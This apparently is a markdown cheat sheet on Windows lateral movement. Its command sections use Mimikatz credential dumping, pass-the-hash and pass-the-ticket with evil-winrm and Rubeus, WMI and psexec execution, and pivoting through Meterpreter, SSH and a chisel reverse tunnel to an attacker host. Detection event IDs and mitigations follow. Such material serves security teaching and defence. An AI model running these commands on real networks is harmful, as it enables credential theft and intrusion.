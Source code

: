   
## 📚 Table of Contents

  

1. [Introduction](#introduction)
2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)
    - [Using Credential Dumping](#using-credential-dumping)
    - [Pass-the-Hash](#pass-the-hash)
    - [Pass-the-Ticket](#pass-the-ticket)
    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)
    - [WMI & WinRM Execution](#wmi--winrm-execution)
    - [PsExec & SMB](#psexec--smb)
3. [Pivoting Through Compromised Hosts](#pivoting-through-compromised-hosts)
    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)
    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)
    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)
4. [Detecting Lateral Movement](#detecting-lateral-movement)
5. [Mitigations & Best Practices](#mitigations--best-practices)
6. [Conclusion](#conclusion)

  ---

## Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```
mimikatz.exe
```

```
sekurlsa::logonpasswords
```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH
```

```
Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```
mimikatz # kerberos::ptt ticket.kirbi
```
  
### WMI & WinRM Execution

```
Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

```
evil-winrm -i 10.10.10.10 -u user -p password
```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16
```

```
meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```

## 4. Detecting Lateral Movement

Detection strategies include:

- Monitoring Authentication Logs — Look for unusual logins, logon types, or accounts accessing multiple systems in short time spans.

- Windows Event IDs —    
    - 4624 (Successful logon) — check for anomalies
    - 4625 (Failed logon attempts) — brute-force indicators        
    - 4769 (Kerberos service ticket request) — possible PtT
- Network Traffic Analysis — Identify unusual SMB, RDP, or WinRM activity.
- Honeypots — Deploy decoy credentials or hosts to detect unauthorized movement.

---
## 5. Mitigations & Best Practices

- Enforce Multi-Factor Authentication (MFA) for privileged accounts.
- Limit Lateral Movement Paths — Segment networks and apply least privilege.
- Disable Legacy Protocols like SMBv1 and NTLM where possible.
- Patch Regularly to prevent exploitation of known vulnerabilities.
- Use Credential Guard / LSASS Protection to prevent credential dumping.
- Implement Monitoring & Alerting — SIEM rules for unusual account usage.

---
## 6. Conclusion

Lateral movement is a key phase in post-exploitation that allows attackers to expand access and target critical assets. Understanding the techniques, being able to detect them, and applying strong mitigations is essential for reducing risk. Combining **proactive defense** with **continuous monitoring** will significantly improve resilience against these threats.